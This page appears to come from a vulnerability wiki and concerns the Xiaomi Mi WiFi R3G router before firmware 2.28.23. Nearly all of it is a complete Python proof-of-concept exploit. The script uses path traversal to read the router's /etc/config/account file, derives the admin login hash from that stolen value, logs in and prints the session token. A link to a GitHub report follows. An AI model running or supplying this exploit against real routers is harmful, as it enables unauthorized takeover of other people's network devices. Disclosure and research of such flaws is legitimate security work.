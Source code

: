 <languages /> <translate>

漏洞影響
--------

</translate> Xiaomi Mi WiFi R3G 2.28.23-stable previous version

POC
---

### arbitrary_file_read_vulnerability.py

    import os
    import re
    import time
    import base64
    import random
    import hashlib
    import requests
    from Crypto.Cipher import AES

    # proxies = {"http":"http://127.0.0.1:8080"}
    proxies = {}

    def get_mac():
        ## get mac
        r0 = requests.get("http://192.168.31.1/cgi-bin/luci/web", proxies=proxies)
        mac = re.findall(r'deviceId = \'(.*?)\'', r0.text)[0]
        # print(mac)
        return mac

    def get_account_str():
        ## read /etc/config/account
        r1 = requests.get("http://192.168.31.1/api-third-party/download/extdisks../etc/config/account", proxies=proxies)
        print(r1.text)
        account_str = re.findall(r'admin\'? \'(.*)\'', r1.text)[0]
        return account_str

    def create_nonce(mac):
        type_ = 0
        deviceId = mac
        time_ = int(time.time())
        rand = random.randint(0,10000)
        return "%d_%s_%d_%d"%(type_, deviceId, time_, rand)

    def calc_password(nonce, account_str):
        m = hashlib.sha1()
        m.update((nonce + account_str).encode('utf-8'))
        return m.hexdigest()

    mac = get_mac()
    account_str = get_account_str()
    ## login, get stok
    nonce = create_nonce(mac)
    password = calc_password(nonce, account_str)
    data = "username=admin&password={password}&logtype=2&nonce={nonce}".format(password=password,nonce=nonce)
    r2 = requests.post("http://192.168.31.1/cgi-bin/luci/api/xqsystem/login",
        data = data,
        headers={"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:65.0) Gecko/20100101 Firefox/65.0",
            "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"},
        proxies=proxies)
    # print(r2.text)
    stok = re.findall(r'"token":"(.*?)"',r2.text)[0]
    print("stok="+stok)

<translate>

參考
----

</translate>

<https://github.com/UltramanGaia/Xiaomi_Mi_WiFi_R3G_Vulnerability_POC/blob/master/report/report.md>